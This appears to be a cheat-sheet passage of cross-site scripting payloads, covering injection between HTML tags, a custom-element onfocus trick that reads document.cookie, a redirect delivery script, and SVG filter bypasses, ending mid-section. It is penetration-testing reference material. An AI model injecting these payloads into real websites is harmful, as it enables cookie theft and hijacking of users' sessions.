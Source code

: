 
Context



### 1)XSS between html tags


```javascript
<script>alert(document.domain)</script>

<img src=x onerror=alert(1)>

<body onresize=print() onload=this.style.width='100px'/>
```



Custom html element creation if most tags blocked but embed it inside script tag


```js
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

This injection creates a custom tag with the ID x, which contains an onfocus event handler that triggers the alert function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called. 

Complete payload is

```js
<script>

location = 'https://Hostname/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';

</script>
```


Event handler and href attribute blocked

```js
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>

```

SVG markup allowed

```js
<svg><animatetransform onbegin=alert(1)>
```


### 2)XSS in HTMl tag attributes 



When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tags
